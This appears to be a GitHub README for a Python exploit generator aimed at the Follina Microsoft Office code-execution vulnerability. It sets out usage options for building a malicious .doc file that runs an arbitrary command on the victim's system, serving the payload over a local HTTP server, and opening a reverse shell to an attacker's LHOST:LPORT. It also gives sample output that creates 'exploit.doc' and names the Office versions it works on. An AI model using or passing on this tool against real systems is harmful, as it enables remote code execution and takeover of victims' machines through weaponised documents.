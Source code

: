 # Follina Exploit

Follina PoC Exploit Generator!

## Usage
```bash
$ ./follina_exploit.py --help
usage: follina_exploit.py [-h] [-c COMMAND] [-o OUTPUT] [-i IP] [-p PORT]
                          [-r LHOST:LPORT]

[+] Exploit Generator for Follina

options:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Command to execute on the remote system [Default:
                        Calc]
  -o OUTPUT, --output OUTPUT
                        Name of output malicious Doc [Default: exploit.doc]
  -i IP, --ip IP        Interface to bind http server to [Default: 127.0.0.1]
  -p PORT, --port PORT  Port to start http server on [Default: 6969]
  -r LHOST:LPORT, --reverse LHOST:LPORT
                        IP and Port for reverse shell
```

```bash
$ ./follina_exploit.py
⚙ Output File: exploit.doc
⚙ Starting HTTP Server over: 127.0.0.1:6969
⚙ Command: calc.exe
📁 Staging Folder: /tmp/follina_fu9t5t6p
🐞 Wrote payload to /tmp/follina_fu9t5t6p/www/index.html
🔥 Preparing Malicious doc
🌐 Serving /tmp/follina_fu9t5t6p/www over http://127.0.0.1:6969
✔ Created Malicios Doc: /home/whokilleddb/Code/Follina/exploit.doc
```

## To-Do

- Change the document to RTF form

## Works On

- Office 19
- Office 16 (probably) 

## References

- https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e
- https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
